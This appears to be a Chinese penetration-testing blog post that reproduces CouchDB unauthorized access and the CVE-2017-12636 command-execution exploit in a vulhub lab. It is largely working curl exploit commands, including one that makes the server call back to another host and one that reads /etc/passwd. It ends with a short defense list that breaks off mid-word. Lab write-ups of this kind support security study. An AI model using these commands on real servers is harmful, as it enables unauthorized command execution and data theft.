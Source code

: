 ```yaml
---
title: CouchDB未授权访问&命令执行
top: false
cover: false
categories:
- 渗透测试
tags:
- CouchDB
- 未授权访问
- 命令执行
- CVE-2017-12635
- CVE-2017-12636
abbrlink: 78
date: 2020-05-26 10:20:43
keywords:
summary:
img:
password:
---
```


#### 漏洞简介以及危害
Apache CouchDB是一个开源数据库,专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式,JavaScript作为查询语言,MapReduce和HTTP作为API的NoSQL数据库。
应用广广泛,如BBC用在其动态内容展示平台,Credit Suisse用在其内部的商品部⻔的市场框架,Meebo,用在其社交平台(web和应用程序),默认会在`5984端口`开放Restful的API接口口,如果使用
SSL的话就会监听在`6984端口`,用于数据库的管理功能。其HTTP Server默认开启时没有进行行行验证,而且绑定在0.0.0.0,所有用户均可通过API访问导致未授权访问。
在官方方配置文文档中对HTTP Server的配置有WWW-Authenticate:Set this option to trigger
basic-auth popup on unauthorized requests,但是很多用户都没有这么配置,导致漏洞产生。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

影响版本：小于 1.7.0 以及 小于 2.1.1


#### 漏洞环境
vulnhub

#### 漏洞利用
CVE-2017-12636是需要登录用户方可触发，如果不知道目标管理员密码，可以利CVE-2017-12635[CVE-017-12635](https://blog.csdn.net/JiangBuLiu/article/details/94027581)先【增加一个管理员用户】，如果无须帐号密码，就可通过未授权访问进行命令执行
同样，记得在Burp的拦截端口添加一个5984


进入环境，并启动
```bash
cd couchdb/CVE-2017-12636/
docker-compose up -d
```


###### 未授权访问测试
```bash
curl http://192.168.0.100:5984
curl http://192.168.0.100:5984/_config
```

<img src="http://image.xpshuai.cn/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE1.png"></img>

###### 任意命令执行漏洞

```bash
# 本机python运行http服务(可以不运行这个步骤，这里只是做curl测试用的)
python -m SimpleHTTPServer 8888
```

1.6.0 下

```bash
#依次执行如下命令
curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '"curl http://192.168.0.105:8888/test.php"' # 这里可以执行任意命令
#curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '" cat /etc/passwd >> tmp/ext_passwd"' 
curl -X PUT 'http://192.168.0.100:5984/vultest'    # 添加一个Database和Document
curl -X PUT 'http://192.168.0.100:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://192.168.0.100:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'      # 在这个Database里查询，将language设置为cmd，这里就会用到我第一步里添加的名为cmd的query_servers，最后触发命令执行
```

2.1.0 下
```bash
# 2.1.0中修改了1.6.0用到的两个API
# Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。我们带上账号密码访问/_membership即可
curl http://<your-ip>:5984/_membership

# 利用(跟1.6.0类似)
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/CVE-2017-12636_is_success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'    #先增加一个Database和一个Document
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
#Couchdb 2.x删除了_temp_view，所以我们为了触发query_servers中定义的命令，需要添加一个_view
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
#增加_view的同时即触发了query_servers中的命令。
```

<img src="http://image.xpshuai.cn/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE2.png"></img>

exp地址

```
https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py
```

**nmap扫描**

```bash
nmap -p 5984 --script "couchdb-stats.nse" <target_ip>
```


#### 防御手段
- 绑定指定ip
- 设置访问密
